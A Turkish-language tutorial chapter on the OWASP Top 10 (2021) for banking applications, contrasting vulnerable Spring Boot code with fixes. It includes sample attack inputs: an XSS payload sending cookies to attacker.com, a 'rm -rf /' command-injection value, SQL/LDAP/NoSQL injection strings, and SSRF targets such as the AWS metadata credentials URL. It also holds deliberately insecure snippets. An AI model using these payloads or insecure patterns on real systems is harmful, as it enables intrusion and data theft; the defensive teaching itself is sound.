




# Topic 8.7 — OWASP Top 10 (2021) — Banking Perspective

```admonish info title="Bu bölümde"
- **Broken Access Control** ve IDOR: banking'in en yüksek severity riski, repo-level scoping ile kökten fix ve neden 404 dönülür 403 değil
- **Injection** ailesi (SQL, NoSQL, XSS, command, LDAP): parameterized query'nin injection'ı neden yapısal olarak imkânsız kıldığı
- OWASP 2021'in 10 maddesi banking senaryolarıyla: cryptographic failures, insecure design, misconfiguration, SSRF
- Banking'e özel tuzaklar: mass assignment, kart verisi (PAN) exposure, audit hash chain, actuator sızıntısı
- **Defense-in-depth**: tek bir kontrole güvenmeyen, katman katman kurulan savunma mantığı
```

## Hedef

OWASP Top 10 2021 listesini banking domain'inde derinlemesine kavramak. Her risk için tek bir akış: **neden önemli → açık nedir → banking örneği → savunma**. Vulnerable code, defense pattern, Spring Boot/Java fix ve detection'ı ezberden değil sebep-sonuç olarak anlatabilmek. Mülakatın klasikleri IDOR, SQL injection, mass assignment ve defense-in-depth'i tahtada çizebilmek.

## Süre

Okuma: 2.5-3 saat • Kendini Sına: 45 dk • Pratik (opsiyonel): 3-4 saat • Toplam: ~3 saat (+ pratik)

## Önbilgi

- Topic 8.2-8.6 bitti — authentication, session, crypto, secrets temelleri var
- HTTP protokol, REST, SQL temel bilgisi
- Spring Security 6 temel kurulumunu gördün

---

## Kavramlar

### Background — OWASP Top 10 nedir?

**OWASP** (Open Web Application Security Project) her 3 yılda en kritik web vulnerability'lerini frequency ve impact'e göre sıralar. Bu liste bir "checklist" değil; her maddenin altında onlarca CWE ve gerçek breach yatar. 2021 listesi şudur:

1. **A01 — Broken Access Control**
2. **A02 — Cryptographic Failures**
3. **A03 — Injection**
4. **A04 — Insecure Design**
5. **A05 — Security Misconfiguration**
6. **A06 — Vulnerable and Outdated Components**
7. **A07 — Identification and Authentication Failures**
8. **A08 — Software and Data Integrity Failures**
9. **A09 — Security Logging and Monitoring Failures**
10. **A10 — Server-Side Request Forgery (SSRF)**

Banking için **A01** ve **A03** en yüksek frequency; **A02** ve **A08** en yüksek impact taşır. Sıralamayı bu takas belirler: sık görülen ile pahalıya patlayan ayrı şeylerdir.

---

### A01 — Broken Access Control

Bir kullanıcının erişmemesi gereken veriye erişebilmesi, banking'de tek satır kodla milyonlarca müşteri kaydının sızması demektir. **Authentication** "kim?" sorusudur, **authorization** "ne yapabilir?" sorusudur; A01 ikincisinin arızasıdır. 2021'de listenin bir numarasına yükseldi çünkü test etmesi en zor, istismarı en kolay kategoridir.

#### IDOR — Insecure Direct Object Reference

En yaygın açık: endpoint bir ID alıyor ama o ID'nin gerçekten çağıran kullanıcıya ait olup olmadığını kontrol etmiyor.

```java
@GetMapping("/accounts/{id}")
public Account getAccount(@PathVariable Long id) {
    return accountRepo.findById(id).orElseThrow();   // ❌ ownership check yok
}
```

User A login olur, `GET /accounts/12345` ile kendi hesabını görür. Sonra ID'yi bir artırıp `GET /accounts/12346` dener ve User B'nin hesabını görür — bakiye, transaction history, kredi limiti, statement. Banking için bu **highest severity** breach'tir.



#### Savunma — ownership'i sorguya göm

En güçlü savunma authorization'ı controller'a ek bir `if` olarak değil, doğrudan sorgunun içine yerleştirmektir. Repo-level scoping ile bir kullanıcı başkasının satırını hiç çekemez:

```java
@GetMapping("/accounts/{id}")
public Account getAccount(
    @PathVariable UUID id,
    @AuthenticationPrincipal Jwt jwt
) {
    UUID userId = UUID.fromString(jwt.getSubject());
    return accountRepo.findByIdAndOwnerId(id, userId)
        .orElseThrow(() -> new AccountNotFoundException(id));
}
```

Burada kritik bir detay var: kayıt bulunmayınca `NOT FOUND` dönüyoruz, `FORBIDDEN` değil. <mark>404 dön, 403 değil — aksi halde "bu hesap var ama sana yasak" diyerek varlık bilgisini sızdırırsın</mark>. Deklaratif tercih eden ekipler aynı işi `@PreAuthorize` ile yapar:

```java
@GetMapping("/accounts/{id}")
@PreAuthorize("@accountSecurityService.canAccess(#id, authentication)")
public Account getAccount(@PathVariable UUID id) {
    return accountRepo.findById(id).orElseThrow();
}
```

```admonish warning title="IDOR ve bilgi sızıntısı"
Ownership kontrolünde 403 vermek IDOR'u kısmen kapatır ama yeni bir açık açar: saldırgan 403 ile 404 farkından hangi ID'lerin var olduğunu haritalayabilir (account enumeration). Banking'de "yetkisiz" ile "yok" aynı yanıtı vermeli — ikisi de 404.
```

#### Mass assignment — sessiz privilege escalation

IDOR'un okuma tarafı varsa, mass assignment yazma tarafıdır. Request body'yi doğrudan entity'ye bind edersen saldırgan senin beklemediğin alanları da set eder:

```java
// ❌ Body doğrudan entity'ye bind
@PostMapping("/accounts")
public Account create(@RequestBody Account account) {
    return accountRepo.save(account);
}
```

Saldırgan gövdeye `{"name":"x","role":"admin","balance":1000000}` koyar; `role` ve `balance` alanları da yazılır. Çözüm: entity'yi API'ya asla açma, sadece izin verilen alanları taşıyan bir DTO kullan:

```java
public record CreateAccountRequest(
    @NotBlank String name,
    @NotNull @Pattern(regexp = "^[A-Z]{3}$") String currency
) {}
```

#### Vertical privilege escalation

Yatay erişim (başka müşterinin verisi) kadar tehlikeli olan dikey erişimdir: normal müşterinin admin endpoint'ine ulaşması. Çözüm role-based method security:

```java
// ❌ role kontrolü yok
@DeleteMapping("/admin/users/{id}")
public void deleteUser(@PathVariable UUID id) { userService.delete(id); }

// ✓ method-level
@DeleteMapping("/admin/users/{id}")
@PreAuthorize("hasRole('admin')")
public void deleteUser(@PathVariable UUID id) { userService.delete(id); }
```

Method-level auth business kurallarıyla birleşebilir — transfer limitini de aynı katmanda zorla:

```java
@PostMapping("/transfers")
@PreAuthorize("hasAuthority('SCOPE_transfer.write') and @transferLimitService.canTransfer(#req, authentication)")
public Transfer transfer(@RequestBody TransferRequest req, Authentication auth) { ... }
```

#### CORS misconfiguration

Access control sadece backend'de değil, tarayıcının cross-origin politikasında da yaşar. `origins = "*"` her siteye API'nı açar; banking'de origin'i whitelist'lersin:

```java
// ❌ tüm origin'ler
@CrossOrigin(origins = "*")

// ✓ whitelist
@CrossOrigin(origins = {"https://app.mavibank.com", "https://m.mavibank.com"})
```

#### Deny by default

Tüm bu kuralların temeli tek bir ilke: açıkça izin verilmeyen her şey yasak. Spring Security 6'da bunu `anyRequest().authenticated()` ile kurarsın:

```java
@Configuration
@EnableMethodSecurity
public class SecurityConfig {
    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http.authorizeHttpRequests(a -> a
            .requestMatchers("/v1/public/**").permitAll()
            .requestMatchers("/admin/**").hasRole("admin")
            .requestMatchers("/v1/teller/**").hasRole("teller")
            .anyRequest().authenticated())     // ✓ deny by default
            .oauth2ResourceServer(o -> o.jwt(Customizer.withDefaults()));
        return http.build();
    }
}
```

---

### A02 — Cryptographic Failures

Doğru şifreleme algoritmasını kullanmak yetmez; yanlış yerde plaintext bırakmak, zayıf hash seçmek veya anahtarı koda gömmek aynı kapıya çıkar. Eski adı "Sensitive Data Exposure" olan bu kategori banking'de en yüksek impact'lerden biridir — bir kez PAN veya TC sızarsa geri alınamaz.

#### Banking'de tipik hatalar

Aşağıdaki her satır gerçek bir breach kaynağıdır:

```java
http://api.mavibank.com/v1/login          // ❌ TLS yok, plain HTTP
String hash = md5(password);              // ❌ kırılmış hash
private static final String KEY = "secret"; // ❌ hardcoded anahtar
Cipher.getInstance("AES/ECB/PKCS5Padding"); // ❌ ECB pattern sızdırır
```

Veri sızıntısı çoğu zaman şifrelemeden değil, **sensitive data'nın yanlış yerde durmasından** gelir: PAN'ı plaintext kolonda tutmak, log'a şifre yazmak, PIN'i URL query string'ine koymak.

```java
column tc_kimlik = "12345678901"                      // ❌ plaintext PAN/TC
log.info("User {} logged in with pw {}", user, pw);   // ❌ log'da secret
GET /transfer?from=1234&to=5678&amount=1000&pin=1234  // ❌ URL'de PIN
```

#### Savunmalar (özet — detay Topic 8.6)

- TLS 1.2+ zorunlu (banking'de 1.3 tercih), HSTS header
- AES-256-GCM (ECB yok, AEAD'siz düz CBC yok)
- BCrypt/Argon2 password hashing (MD5/SHA1 yok)
- KMS/Vault ile anahtar yönetimi (hardcoded yok)
- Kart verisi için column encryption + tokenization
- PII için logging filter

#### Card exposure — kart verisini log'da maskele

Banking'in en sık KVKK/PCI-DSS ihlali log'a düşen PAN ve TC'dir. İki yol var. Logback pattern ile regex maskeleme deklaratif ve merkezîdir:

```xml
<pattern>%d{ISO8601} %-5level %logger{36} - %replace(%msg){'(?i)(password|pin|tc[_ ]?kimlik|pan)=([^\s,]+)', '$1=***'}%n</pattern>
```

Daha programatik kontrol için AOP aspect ile method argümanlarını maskele. Aşağıda çekirdek mantık — PAN (16 hane) veya TC (11 hane) gibi görünen string'i baş/son iki hane hariç yıldızlar:

```java
private Object mask(Object arg) {
    if (arg instanceof String s && s.matches("\\d{16}|\\d{11}")) {
        return s.substring(0, 2) + "***" + s.substring(s.length() - 2);
    }
    return arg;
}
```

Bu maskeleyiciyi bir `@Around` advice içine koyarsın; tam aspect katlanmış hâlde aşağıda.

<details>
<summary>Tam kod: LogMaskingAspect (~24 satır)</summary>

```java
@Aspect
@Component
public class LogMaskingAspect {

    @Around("@annotation(Log)")
    public Object maskSensitiveArgs(ProceedingJoinPoint pjp) throws Throwable {
        Object[] args = pjp.getArgs();
        Object[] masked = Arrays.stream(args)
            .map(this::mask)
            .toArray();
        log.info("Calling {} with args {}", pjp.getSignature(), masked);
        return pjp.proceed();
    }

    private Object mask(Object arg) {
        if (arg instanceof String s) {
            // PAN (16 hane) veya TC (11 hane) gibi görünüyorsa maskele
            if (s.matches("\\d{16}|\\d{11}")) {
                return s.substring(0, 2) + "***" + s.substring(s.length() - 2);
            }
        }
        return arg;
    }
}
```

</details>

---

### A03 — Injection

Injection tek bir cümleyle özetlenir: kullanıcı girdisini kod olarak çalıştırmak. SQL, NoSQL, XSS, command, LDAP — hepsi aynı kök hatanın farklı yüzleridir ve hepsinin çözümü aynı prensipte buluşur: **veriyi asla koddan ayrıştırmayı bırakma**.

#### SQL Injection

String concatenation ile kurulan sorgu, girdinin SQL yapısını değiştirmesine izin verir:

```java
// ❌ String concatenation
String sql = "SELECT * FROM users WHERE username = '" + username + "'";
```

Saldırgan `username = "admin' OR '1'='1"` girerse sorgu `... WHERE username = 'admin' OR '1'='1'` olur ve genelde ilk kullanıcıyı (çoğu zaman admin) döndürür. **Fix — parameterized query:** girdi ayrı bir parametre olarak gider, sorgu yapısı sabit kalır.

```java
// ✓ JdbcTemplate
String sql = "SELECT * FROM users WHERE username = ?";
return jdbcTemplate.queryForObject(sql, params(username), rowMapper);

// ✓ JPA
@Query("SELECT u FROM User u WHERE u.username = :username")
Optional<User> findByUsername(@Param("username") String username);
```

Neden kökten çözüm? <mark>Parameterized query'de girdi asla parse edilmez; DB onu her zaman veri olarak görür, SQL yapısı olarak asla</mark>. Stored procedure çağrılarında da aynı disiplin geçerli:

```java
// ✓ CallableStatement
CallableStatement cs = conn.prepareCall("{call get_user(?)}");
cs.setString(1, username);
ResultSet rs = cs.executeQuery();
```

#### NoSQL injection

Prensip aynı, sözdizimi farklı. MongoDB'de girdiyi doğrudan query object'e koymak operator injection açar:

```javascript
// ❌
db.users.findOne({username: req.body.username, password: req.body.password});
// Attack: { "$ne": null }  →  herhangi bir user döner
```

Spring Data MongoDB parametreleri otomatik bağlar; `@Query("{username: ?0, password: ?1}")` ile güvende kalırsın.

#### XSS — Cross-Site Scripting

Injection'ın tarayıcı tarafı. Escape edilmemiş kullanıcı girdisi sayfaya script olarak enjekte edilir:

```jsp
<%-- ❌ escape yok --%>
<div>Welcome ${user.name}</div>
<%-- name = "<script>fetch('https://attacker.com/'+document.cookie)</script>" → cookie exfiltrate --%>
```

Savunma katmanlıdır: Thymeleaf `th:text` default escape eder, React/Vue framework default escape yapar (`dangerouslySetInnerHTML` hariç), JSON-only API XSS attack surface'ini dramatik küçültür ve CSP header son savunma hattıdır:

```http
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'
```

#### Command ve LDAP injection

Aynı hata OS shell ve dizin sorgularında da geçerli. Shell'e girdi eklemek RCE açar; `ProcessBuilder`'a array vermek shell'i baypas eder:

```java
// ❌  "8.8.8.8; rm -rf /" tehlikeli
Process p = Runtime.getRuntime().exec("ping " + userInput);

// ✓ array — shell interpretasyonu yok
ProcessBuilder pb = new ProcessBuilder("ping", "-c", "1", validatedIp);
```

LDAP'te de filter string'i concat etmek yerine `LdapQueryBuilder` kullan; `userInput = "*)(uid=*"` gibi payload'lar etkisizleşir.

```java
LdapQuery query = LdapQueryBuilder.query().where("uid").is(username);
```

#### İlk savunma hattı — `@Valid`

Injection'a karşı en ucuz sigorta, kötü girdiyi business logic'e ulaşmadan reddetmektir. Bean Validation ile input'u sınırla:

```java
public record TransferRequest(
    @NotNull @Pattern(regexp = "^[A-Z]{2}\\d{2}[A-Z0-9]{1,30}$") String iban,
    @NotNull @DecimalMin("0.01") @DecimalMax("100000") BigDecimal amount,
    @NotNull @Size(max = 200) String description
) {}
```

Validation her zaman business logic'ten **önce** çalışır — controller `@Valid @RequestBody` ile bunu zorlar.



---

### A04 — Insecure Design

Bu 2021'in yeni kategorisi ve en incelikli olanı: hata implementation'da değil, **tasarımın kendisinde**. Kodun kusursuz olabilir ama akış baştan güvensiz tasarlanmışsa hiçbir code review kurtarmaz.

#### Banking'de tasarım hataları

**1. Password reset sadece email ile:** Email hesabı ele geçirilirse tüm bankaların şifresi reset edilir. Banking better: email + SMS + security question + MFA kombinasyonu.

**2. İkincil onaysız yüksek transfer:** `POST /transfers` 100.000 TL'yi tek authorization ile geçiriyorsa fraud kapısı açıktır. Banking better: yüksek tutarda OTP/biometric — **step-up authentication**.

**3. Tahmin edilebilir hesap numarası:** `account_number = userId + "01"` gibi sequential üretim, IDOR'un tasarım versiyonudur; saldırgan iterate ederek numaraları bulur. Banking better: cryptographically random numaralar (IBAN check digit ile).

**4. Sensitive data ile soft delete:** `DELETE /users` sadece `deleted=true` set edip tüm PII'yi tutuyorsa KVKK ihlali. Çözüm: crypto-shredding (Topic 8.6).

**5. Rate limit sadece auth'ta:** `/login` rate-limited ama `/transfers` limitsizse, saldırgan bir kez login olup transfer'leri flood'lar. Rate limit tüm kritik endpoint'lerde olmalı.

#### Savunma — threat modeling

Insecure design'ın panzehiri her feature'ı design fazında düşünmektir. **STRIDE** çerçevesi altı tehdit sınıfını sorgular: Spoofing, Tampering, Repudiation, Information disclosure, Denial of service, Elevation of privilege. Buna "misuse case" düşüncesini ekle — "saldırgan bu feature'la ne yapmaya çalışır?" — ve tasarım daha çizim aşamasındayken güvenli olur.

---

### A05 — Security Misconfiguration

En pahalı breach'lerin çoğu sıfır-day değil, unutulmuş bir ayardır: açık kalmış bir actuator, değiştirilmemiş default şifre, sızan bir stack trace. Kod güvenli olsa bile konfigürasyon güvensizse sistem güvensizdir.

#### Actuator'ı kilitle

Spring Boot actuator tüm endpoint'leri açarsa `/actuator/env` DB credential'ını, `/actuator/heapdump` bellek dökümünü verir:

```yaml
# ❌ her şey açık
management.endpoints.web.exposure.include: "*"

# ✓ sadece gerekli
management:
  endpoints.web.exposure.include: health, info, prometheus
  endpoint.health.show-details: when-authorized
```

#### Default credentials ve stack trace

Keycloak `admin/admin`, H2 console `sa`/empty, Tomcat `manager/tomcat` — production'da hepsi değiştirilmeli, IP allowlist ve MFA arkasına alınmalı. Stack trace'in kullanıcıya sızması da DB schema bilgisini ele verir (`ORA-00942: table or view does not exist`). Global handler ile kullanıcıya opak hata, log'a tam detay:

```java
@ExceptionHandler(Exception.class)
public ResponseEntity<ProblemDetail> handle(Exception e) {
    log.error("Unhandled exception", e);   // tam stack → log
    ProblemDetail pd = ProblemDetail.forStatusAndDetail(
        HttpStatus.INTERNAL_SERVER_ERROR, "An unexpected error occurred");
    pd.setProperty("traceId", MDC.get("traceId"));
    return ResponseEntity.internalServerError().body(pd);
}
```

Kullanıcı opak mesaj + `traceId` görür; operatör log'da `traceId` ile tam detayı bulur.

#### Security header'lar

Header'ların eksikliği tarayıcı tarafı savunmaları kapatır. Spring Security ile hepsini bir yerde ver:

```java
http.headers(h -> h
    .contentTypeOptions(Customizer.withDefaults())      // X-Content-Type-Options: nosniff
    .frameOptions(f -> f.deny())                        // X-Frame-Options: DENY
    .httpStrictTransportSecurity(hsts -> hsts
        .includeSubDomains(true).maxAgeInSeconds(31536000).preload(true))
    .contentSecurityPolicy(csp -> csp
        .policyDirectives("default-src 'self'; script-src 'self'")));
```

#### Container ve platform

Verbose `Server: Apache/2.4.41` header'ı version fingerprint verip bilinen CVE'leri hedeflenebilir kılar (`server.server-header: ""` ile gizle). Internal servisler `0.0.0.0` yerine localhost/private network'e bind etmeli. Ve container root ile koşmamalı:

```dockerfile
# ✓ non-root user
FROM eclipse-temurin:21
RUN groupadd -r app && useradd -r -g app app
COPY --chown=app:app app.jar /app.jar
USER app
CMD ["java", "-jar", "/app.jar"]
```

```admonish tip title="Misconfiguration bir süreçtir"
Tek seferlik "sıkılaştırdık" yetmez. Her yeni servis, her image, her framework upgrade yeni default'lar getirir. Banking'de baseline'ı kod olarak tut (IaC + policy-as-code), CI'de `/actuator/env` gibi endpoint'lerin açık olmadığını otomatik test et.
```

---

### A06 — Vulnerable and Outdated Components

Kodun kusursuz olabilir ama kullandığın bir kütüphanenin açığı seninkine dönüşür. Log4Shell (CVE-2021-44228) tam da bu kategoriden: milyonlarca sistem kendi kodunda tek satır hata olmadan RCE'ye açıldı.

#### Savunma katmanları

**1. Dependency scan:** OWASP dependency-check'i CI'ye koy; belirli CVSS üstünde build'i kır.

```xml
<plugin>
    <groupId>org.owasp</groupId>
    <artifactId>dependency-check-maven</artifactId>
    <version>9.0.0</version>
    <configuration>
        <failBuildOnCVSS>7</failBuildOnCVSS>
    </configuration>
</plugin>
```

**2. SBOM:** Banking regülasyonu supply chain için Software Bill of Materials'ı zorunlu tutar. `mvn cyclonedx:makeBom` tüm transitive dependency'leri listeler.

**3. Otomasyon ve container scan:** Snyk/Dependabot/Renovate otomatik update PR açar; `trivy image` ve `grype` container image'ini tarar.

**4. Politika:** Security patch hemen, minor iki haftada bir, major planlı migration, EOL için deprecation roadmap. Banking'de GPL-lisanslı kütüphaneler genelde yasaktır (legal + license compliance).

---

### A07 — Identification and Authentication Failures

Kimlik doğrulama zincirinin en zayıf halkası tüm sistemin güvenliğini belirler. Detaylar Topic 8.2-8.3'te; burada banking checklist'i ve iki kritik tuzak.

#### Banking auth checklist

- [ ] Strong password policy (12+ char, complexity, breach check)
- [ ] BCrypt/Argon2 (MD5/SHA1 yok)
- [ ] Brute force protection (5 fail / 15 dk lockout)
- [ ] MFA (TOTP, WebAuthn, SMS OTP)
- [ ] Session timeout (idle 30 dk, absolute 8 saat)
- [ ] Login'de session ID regen (session fixation önlemi)
- [ ] Logout'ta server-side invalidation (sadece client-side değil)
- [ ] Cookie flags (Secure, HttpOnly, SameSite=Strict)
- [ ] JWT short TTL + refresh rotation
- [ ] Authentication event audit

#### Session fixation

Saldırgan kendi session ID'sini kurbana kabul ettirir; kurban o ID ile login olunca saldırgan aynı ID'yle authenticated olur. Fix tek cümle: **başarılı login'de session ID'yi yenile** (Spring Security default davranışı).

#### Cookie güvenliği

Cookie flag'leri session hijacking'e karşı ilk savunmadır:

```java
DefaultCookieSerializer serializer = new DefaultCookieSerializer();
serializer.setCookieName("BANKING_SESSION");
serializer.setUseSecureCookie(true);      // sadece HTTPS
serializer.setUseHttpOnlyCookie(true);    // JS erişemez → XSS ile çalınamaz
serializer.setSameSite("Strict");         // CSRF önlemi
```

---

### A08 — Software and Data Integrity Failures

Bu kategori "geldiği kaynağı doğrulamadan veriye/koda güvenmek" hakkındadır. Banking'de bir sahte webhook veya tampered mesaj, doğrudan yetkisiz para hareketine dönüşebilir.

#### Insecure deserialization

Java'nın native deserialization'ı bir saldırının **gadget chain** ile RCE elde etmesine izin verir:

```java
// ❌
ObjectInputStream ois = new ObjectInputStream(request.getInputStream());
Object obj = ois.readObject();
```

Fix: Java serialization'ı bırak, JSON (Jackson) kullan. Zorunluysa `ObjectInputFilter` ile allowlist:

```java
ObjectInputFilter filter = ObjectInputFilter.Config.createFilter("com.bank.dto.*;!*");
ois.setObjectInputFilter(filter);
```

#### Webhook integrity — HMAC verify

Herhangi bir POST'u meşru kabul eden webhook endpoint'i, saldırganın sahte ödeme event'i forge etmesine açıktır. Çözüm: gövdeyi bir HMAC imzasıyla doğrula ve karşılaştırmayı timing-safe yap:

```java
@PostMapping("/webhook/payment")
public void handle(@RequestBody String body, @RequestHeader("X-Signature") String signature) {
    String expected = hmacSha256(body, webhookSecret);
    if (!MessageDigest.isEqual(expected.getBytes(), signature.getBytes())) {
        throw new SecurityException("Invalid signature");
    }
    PaymentEvent event = objectMapper.readValue(body, PaymentEvent.class);
    // ...
}
```

`MessageDigest.isEqual` kullanmak önemlidir: normal string karşılaştırması erken çıkışıyla timing attack'e açıktır. Aynı imza mantığı Kafka mesajlarında da geçerli — producer her mesajı imzalar (HMAC/JWS), consumer doğrular.

#### CI/CD ve auto-update

Auto-update endpoint'i imzasızsa saldırgan MITM ile malicious update dağıtır; çözüm code signing (jarsigner) + verify. Pipeline tarafında banking standardı: pipeline-as-code (audited), signed commits (GPG), two-person review, build artifact signature ve production deploy approval gate.

---

### A09 — Security Logging and Monitoring Failures

Bir saldırıyı göremiyorsan durduramazsın. Bu kategori doğrudan "hack" değildir ama diğer tüm breach'lerin fark edilmeden sürmesini sağlar — ve banking'de regülatör bunu ağır cezalandırır.

#### Tipik eksikler

**Failed login loglanmıyor:** 401 dönüp sessiz kalırsan brute force görünmez olur. Fix: auth event audit ile her başarısızlığı kaydet.

```java
@EventListener
public void onFailure(AbstractAuthenticationFailureEvent event) {
    auditService.log(event.getAuthentication().getName(), "LOGIN_FAILED", ...);
}
```

**PII log'da:** `log.info("... tc={}", user.tcKimlik)` KVKK ihlalidir — A02'deki LogMaskingAspect ile maskele. **Real-time alert yok:** Banking'de SIEM (Splunk, ELK, Datadog) failed login threshold'unu, privileged action'ı, sensitive table read'ini alert'e bağlar. **Retention yetersiz:** BDDK log retention'ı ≥ 5 yıl (çoğu yerde 5-10 yıl).

#### Tamper-proof audit — hash chain

Audit trail mutable ise, sistemi ele geçiren saldırgan izini siler. Banking better: WORM storage veya cryptographic chain — her log satırı bir öncekinin hash'ini içerir, böylece bir satırı değiştirmek tüm zinciri kırar.

```sql
CREATE TABLE audit_log (
    id BIGSERIAL PRIMARY KEY,
    occurred_at TIMESTAMPTZ DEFAULT now(),
    user_id UUID,
    action VARCHAR(100),
    resource_id VARCHAR(100),
    ip_address INET,
    details JSONB,
    previous_hash CHAR(64),
    current_hash CHAR(64)
);
```

Kural: `current_hash = SHA256(previous_hash + occurred_at + user_id + action + resource_id + details)`. Tamper detection için zinciri yeniden hesaplarsın; bir yerde mismatch varsa kayıt oynanmıştır. Banking'de mutlaka audit'lenmesi gereken operasyonlar: login (success/fail), logout, password/MFA değişimi, profile değişimi (KVKK), role assignment, transfer, kart block/unblock, büyük tutar, her admin action, API key üretimi.

---

### A10 — Server-Side Request Forgery (SSRF)

SSRF, sunucuyu kandırıp senin adına istekler yaptırmaktır — özellikle dışarıdan erişilemeyen internal servislere. Cloud çağında bu tek açık, tüm bulut hesabının ele geçirilmesine kadar gidebilir.

#### Banking saldırı senaryosu

"URL preview" gibi masum bir feature, doğrulama yoksa saldırganın eline geçer:

```java
@PostMapping("/preview")
public String preview(@RequestParam String url) {
    return restTemplate.getForObject(url, String.class);   // ❌ doğrulama yok
}
```

Saldırgan `url = http://169.254.169.254/latest/meta-data/iam/security-credentials/` verir; AWS metadata servisi IAM credential'ını döner ve banka'nın AWS hesabı ele geçirilir. Diğer hedefler: Consul (`localhost:8500`), Redis (`localhost:6379`), `file:///etc/passwd`, dışa açık olmayan admin API'lar.



#### Savunmalar

**1. URL allowlist + scheme kontrolü:** Host bir whitelist'te değilse ve şema http(s) değilse reddet.

```java
public String preview(String url) {
    URI uri = URI.create(url);
    if (!allowedHosts.contains(uri.getHost()))
        throw new SecurityException("Host not allowed");
    if (!Set.of("http", "https").contains(uri.getScheme()))
        throw new SecurityException("Only HTTP(S) allowed");
    return restTemplate.getForObject(uri, String.class);
}
```

**2. Private IP block:** Loopback, link-local, site-local ve multicast adreslerini reddet — allowlist'i baypas eden IP'leri yakalar.

```java
public boolean isPublicIp(InetAddress addr) {
    return !addr.isLoopbackAddress() && !addr.isLinkLocalAddress()
        && !addr.isSiteLocalAddress() && !addr.isAnyLocalAddress()
        && !addr.isMulticastAddress();
}
```

**3. DNS rebinding önlemi:** Saldırgan `evil.com`'un DNS'ini kontrol ederse, ilk çözümlemede public IP (check geçer), ikinci çözümlemede `169.254.169.254` (gerçek istek) dönebilir. <mark>Host'u bir kez resolve et, kontrolü o IP üzerinde yap ve isteği doğrudan aynı IP'ye gönder — hostname'i ikinci kez çözme</mark>.

```java
InetAddress[] addrs = InetAddress.getAllByName(uri.getHost());
for (InetAddress addr : addrs) {
    if (!isPublicIp(addr)) throw new SecurityException();
}
URL url = new URL(uri.getScheme(), addrs[0].getHostAddress(), uri.getPort(), uri.getPath());
```

**4. Platform katmanı:** AWS IMDSv2 metadata isteğine token zorunluluğu getirir, basit SSRF GET'i çalışmaz (`--http-tokens required`). Network segmentation (VPC security group, K8s egress NetworkPolicy) servisin internal admin API'lara erişimini baştan keser.

```admonish warning title="SSRF'te tek katman yetmez"
Sadece allowlist DNS rebinding'e, sadece IP block redirect'e açık kalır. SSRF savunması her zaman katmanlıdır: allowlist + private IP block + resolve-once + IMDSv2 + network segmentation birlikte durur. Bu, defense-in-depth'in en net örneğidir.
```

---

### Banking — OWASP defense kombinasyonu (defense-in-depth)

